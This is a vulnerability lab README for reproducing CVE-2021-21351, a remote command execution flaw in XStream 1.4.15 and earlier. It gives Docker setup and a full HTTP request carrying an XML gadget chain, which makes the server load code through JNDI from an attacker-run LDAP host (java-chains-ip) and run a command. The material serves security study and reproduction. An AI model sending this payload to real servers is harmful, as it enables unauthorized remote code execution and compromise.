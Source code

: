 # XStream Deserialization Remote Command Execution (CVE-2021-21351)

[中文版本(Chinese version)](README.zh-cn.md)

XStream is a simple library to serialize objects to XML and back again.

XStream uses a blocklist mechanism when parsing XML text which is utilized to defend against deserialization vulnerabilities, but in 1.4.15 and earlier, blocklists are incomplete and attackers could use `javax.naming.ldap.Rdn$RdnEntry` and `javax.sql.rowset.BaseRowSet` to make an JNDI injection and execute arbitrary commands finally.

Reference links.

- https://x-stream.github.io/CVE-2021-21351.html
- https://paper.seebug.org/1543/
- https://www.veracode.com/blog/research/exploiting-jndi-injections-java
- https://github.com/welk1n/JNDI-Injection-Exploit/

## Vulnerable Environment

Start a Springboot + XStream 1.4.15 server.

```
docker compose up -d
```

Once the environment is started, you can send the following request to `http://your-ip:8080` to test if the server has started successfully

![](1.png)

## POC

Since the target Java version is higher than 8u191, you need the help of `org.apache.naming.factory.BeanFactory` with EL expression injection to execute arbitrary commands, reference to [this article](https://www.veracode.com/blog/research/exploiting-jndi-injections-java).

You can use the [Java Chains](https://github.com/vulhub/java-chains) for vulnerability replication. Refer to the [Quick Start](https://java-chains.vulhub.org/docs/guide) to launch Java Chains. Afterwards, according to the image below, select to set the command to execute as `touch /tmp/success`, and generate the JNDI LDAP URL Payload:

![](2.png)

Use the above LDAP URL as the value of `<dataSource>` to construct the POC as follows:

```
POST / HTTP/1.1
Host: localhost:8080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36
Connection: close
Content-Type: application/xml
Content-Length: 3181

<sorted-set>
  <javax.naming.ldap.Rdn_-RdnEntry>
    <type>ysomap</type>
    <value class='com.sun.org.apache.xpath.internal.objects.XRTreeFrag'>
      <m__DTMXRTreeFrag>
        <m__dtm class='com.sun.org.apache.xml.internal.dtm.ref.sax2dtm.SAX2DTM'>
          <m__size>-10086</m__size>
          <m__mgrDefault>
            <__overrideDefaultParser>false</__overrideDefaultParser>
            <m__incremental>false</m__incremental>
            <m__source__location>false</m__source__location>
            <m__dtms>
              <null/>
            </m__dtms>
            <m__defaultHandler/>
          </m__mgrDefault>
          <m__shouldStripWS>false</m__shouldStripWS>
          <m__indexing>false</m__indexing>
          <m__incrementalSAXSource class='com.sun.org.apache.xml.internal.dtm.ref.IncrementalSAXSource_Xerces'>
            <fPullParserConfig class='com.sun.rowset.JdbcRowSetImpl' serialization='custom'>
              <javax.sql.rowset.BaseRowSet>
                <default>
                  <concurrency>1008</concurrency>
                  <escapeProcessing>true</escapeProcessing>
                  <fetchDir>1000</fetchDir>
                  <fetchSize>0</fetchSize>
                  <isolation>2</isolation>
                  <maxFieldSize>0</maxFieldSize>
                  <maxRows>0</maxRows>
                  <queryTimeout>0</queryTimeout>
                  <readOnly>true</readOnly>
                  <rowSetType>1004</rowSetType>
                  <showDeleted>false</showDeleted>
                  <dataSource>ldap://java-chains-ip:50389/x</dataSource>
                  <listeners/>
                  <params/>
                </default>
              </javax.sql.rowset.BaseRowSet>
              <com.sun.rowset.JdbcRowSetImpl>
                <default/>
              </com.sun.rowset.JdbcRowSetImpl>
            </fPullParserConfig>
            <fConfigSetInput>
              <class>com.sun.rowset.JdbcRowSetImpl</class>
              <name>setAutoCommit</name>
              <parameter-types>
                <class>boolean</class>
              </parameter-types>
            </fConfigSetInput>
            <fConfigParse reference='../fConfigSetInput'/>
            <fParseInProgress>false</fParseInProgress>
          </m__incrementalSAXSource>
          <m__walker>
            <nextIsRaw>false</nextIsRaw>
          </m__walker>
          <m__endDocumentOccured>false</m__endDocumentOccured>
          <m__idAttributes/>
          <m__textPendingStart>-1</m__textPendingStart>
          <m__useSourceLocationProperty>false</m__useSourceLocationProperty>
          <m__pastFirstElement>false</m__pastFirstElement>
        </m__dtm>
        <m__dtmIdentity>1</m__dtmIdentity>
      </m__DTMXRTreeFrag>
      <m__dtmRoot>1</m__dtmRoot>
      <m__allowRelease>false</m__allowRelease>
    </value>
  </javax.naming.ldap.Rdn_-RdnEntry>
  <javax.naming.ldap.Rdn_-RdnEntry>
    <type>ysomap</type>
    <value class='com.sun.org.apache.xpath.internal.objects.XString'>
      <m__obj class='string'>test</m__obj>
    </value>
  </javax.naming.ldap.Rdn_-RdnEntry>
</sorted-set>
```

It can be seen that `touch /tmp/success` has been successfully executed:

![](3.png)

If something goes wrong with the POC and Java version, the POC have to be modified by changing ``<__overrideDefaultParser>false</__overrideDefaultParser>`` to ``<__useServicesMechanism>false</__useServicesMechanism>``.
